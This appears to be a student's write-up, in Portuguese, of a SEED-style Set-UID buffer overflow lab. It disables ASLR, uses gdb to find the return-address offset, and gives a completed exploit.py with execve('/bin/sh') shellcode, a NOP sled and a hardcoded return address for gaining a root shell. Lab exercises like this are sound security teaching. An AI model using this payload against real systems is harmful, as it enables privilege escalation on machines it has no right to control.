 # Buffer Overflow Attack Lab (Set-UID Version)

## Setup

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```Bash
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

## Task 1

- Depois de brevemente analiasarmos o funcionamento do Shellcode, compilamos o prgrama `call_shellcode.c` que invoca a versão 32-bit Shellcode ou a versão 64-bit.

- Corremos os binários e em ambas as versões foi executada uma nova shell (`/bin/sh`).

![image](screenshots/LB5_1.png)

## Task 2

- Alteração da variável `L1` para 100+8*7.

- Através do comando `make stack-L1` compilámos o programa vulnerável e tornámo-lo num root-owned Set-UID program. 

## Task 3

- Criámos um ficheiro ``badfile` e usámos o `gdb` para fazer debug a `stack-L1-dbg`.

```Bash
$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run 
...
Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:16
16 {
gdb-peda$ next
...
20 strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer
$2 = (char (*)[156]) 0xffffca54
gdb-peda$ p/d 0xffffcaf8 - 0xffffca54
$3 = 164
```

- Obtivemos as informações necessárias e alterámos o ficheiro `exploit.py` para lançar o ataque.

```c
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 300              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xffffcb90   # Change this number 
offset = 164 + 4         # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```



